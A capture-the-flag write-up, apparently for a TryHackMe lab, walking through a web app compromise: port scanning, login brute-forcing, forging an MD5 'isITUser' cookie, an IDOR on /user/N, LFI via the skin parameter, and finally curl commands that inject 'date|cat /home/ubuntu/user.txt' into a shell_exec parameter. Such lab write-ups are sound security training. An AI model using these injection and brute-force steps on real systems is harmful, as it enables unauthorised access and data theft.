

# Questions
1. What is the flag value after logging in as **admin**?
2. What is the content of the file **/home/ubuntu/user.txt**?

---

## Reconnaissance

use `nmap` command to scan `10.49.161.221`



Found **port 80** open -> try accessing http://10.49.161.221


After finding the website, we can't access any page if we don't log in, so I try using `gobuster` to discover hidden directory paths



Found important paths like `/api.php`, but we need authentication to access this page

 

## Login

We know that it has the email name help@support.thm, so let's try brute-forcing this using `ffuf`



`PASSWORD = snoopy`

after logging in to help@gmail.thm, I try to access `/api.php`

## API Access

And we still can't access it. Let's inspect the session

Found` isITUser = 68934a3e9455fa72420237eb05902327`, which is hashed, so I put this in `Crackstaion.net`



Now, the value is false and uses the `md5` type. Let's change it to true
- I use `CyberChef` to hash true using md5 method


The Admin Panel displays here! now we can access `/api.php`


It says we can view our own profile using the `/user/3` path, so let's try it

It shows the current user's profile.
I wonder if we can view other users. Let's try to change` /user/3 `to `/user/1`

- Got it! now we got the **admin** email.
- Let's try brute-forcing to find the password using the **admin** email
 


After a long **brute-force** attempt, I find nothing, so maybe it's not that easy.

## Find the Master Password

Let's try playing with `url LFI`
- I found that the UI changes when using `skin=../config`
- And I found the master password
- Log in with this account

- Got the flag!

## Command Execution

Next, What is the content of the file **/home/ubuntu/user.txt**?

Previously, I also found something suspicious using` ?skin=../api`

]]\



## Command Injection via `sys` Parameter
What is the flag value after logging in as admin?
The dashboard footer has a **POST** form with a `sys` parameter that gets passed to `shell_exec()`. The filter only blocks input that doesn't start with `date` bypass it with a pipe:

bash

```bash
# Test RCE
curl -X POST http://<TARGET_IP>/dashboard.php \
  -b "isITUser=b326b5062b2f0e69046810717534cb09; PHPSESSID=<YOUR_SESSION>" \
  -d "sys=date|id"
# Returns: uid=33(www-data)
```

---

#### Step 8 — Read user.txt

bash

```bash
curl -X POST http://<TARGET_IP>/dashboard.php \
  -b "isITUser=b326b5062b2f0e69046810717534cb09; PHPSESSID=<YOUR_SESSION>" \
  -d "sys=date|cat+/home/ubuntu/user.txt"
```

**Flag 2** is the contents of `/home/ubuntu/user.txt`. 

*DONE!!!*

---
